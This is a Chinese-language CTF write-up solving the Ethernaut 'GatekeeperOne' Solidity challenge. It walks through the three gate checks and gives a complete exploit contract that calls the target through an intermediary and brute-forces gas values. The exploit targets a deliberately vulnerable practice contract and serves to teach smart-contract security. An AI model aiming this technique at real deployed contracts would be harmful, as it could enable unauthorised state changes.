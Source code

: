 ## 0x01 Task

```javascript
pragma solidity ^0.4.18;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(msg.gas % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint32(_gateKey) == uint16(_gateKey));
    require(uint32(_gateKey) != uint64(_gateKey));
    require(uint32(_gateKey) == uint16(tx.origin));
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

如何过三道门呢？

## 0x02 Solution

`gateOne()` 利用之前做过的 Telephone 的知识，从第三方合约来调用 `enter()` 即可满足条件。

> 假设用户通过合约A调用合约B：
>
> - 对于合约A：tx.origin和msg.sender都是用户
> - 对于合约B：tx.origin是用户，msg.sender是合约A的地址

`gateTwo()` 需要满足 `msg.gas % 8191 == 0`通过debug调试得到，等下再说。

`gateThree()` 也比较简单，将 `tx.origin` 倒数三四字节换成 0000 即可。
`bytes8(tx.origin) & 0xFFFFFFFF0000FFFF` 即可满足条件。

`require(uint32(_gateKey) == uint16(_gateKey));`
`require(uint32(_gateKey) != uint64(_gateKey));`
`require(uint32(_gateKey) == uint16(tx.origin));`

This means that the integer key, when converted into various byte sizes, need to fulfil the following properties:

- `0x11111111 == 0x1111`, which is only possible if the value is masked by `0x0000FFFF`
- `0x1111111100001111 != 0x00001111`, which is only possible if you keep the preceding values, with the mask `0xFFFFFFFF0000FFFF`

`gateTwo()` 需要满足 `msg.gas % 8191 == 0`

这里使用爆破的方法解决：

```javascript
contract Attack {

    address public instance_address = 0xad94d66bd88f94f2bb78c0e592b018277294dde9;
    bytes8 public _gateKey = bytes8(tx.origin) & 0xFFFFFFFF0000FFFF;

    GatekeeperOne target = GatekeeperOne(instance_address);

    function hack() public {
        // target.call.gas(999999)(bytes4(keccak256("enter(bytes8)")), _gateKey);
        for (uint256 i = 0; i < 120; i++) {
            target.call.gas(i + 150 + 8191 * 3)(bytes4(keccak256("enter(bytes8)")), _gateKey);
        }
    }
}
```

> Note: the proper gas offset to use will vary depending on the compiler
>
> version and optimization settings used to deploy the factory contract.
>
> To migitage, brute-force a range of possible values of gas to forward.
>
> Using call (vs. an abstract interface) prevents reverts from propagating.
>
> gas offset usually comes in around 210, give a buffer of 60 on each side.

full exp：

```javascript
pragma solidity ^0.4.18;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(msg.gas % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint32(_gateKey) == uint16(_gateKey));
    require(uint32(_gateKey) != uint64(_gateKey));
    require(uint32(_gateKey) == uint16(tx.origin));
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}

contract Attack {

    address public instance_address = 0xad94d66bd88f94f2bb78c0e592b018277294dde9;
    bytes8 public _gateKey = bytes8(tx.origin) & 0xFFFFFFFF0000FFFF;

    GatekeeperOne target = GatekeeperOne(instance_address);

    function hack() public {
        // target.call.gas(999999)(bytes4(keccak256("enter(bytes8)")), _gateKey);
        for (uint256 i = 0; i < 120; i++) {
            target.call.gas(i + 150 + 8191 * 3)(bytes4(keccak256("enter(bytes8)")), _gateKey);
        }
    }
}
```

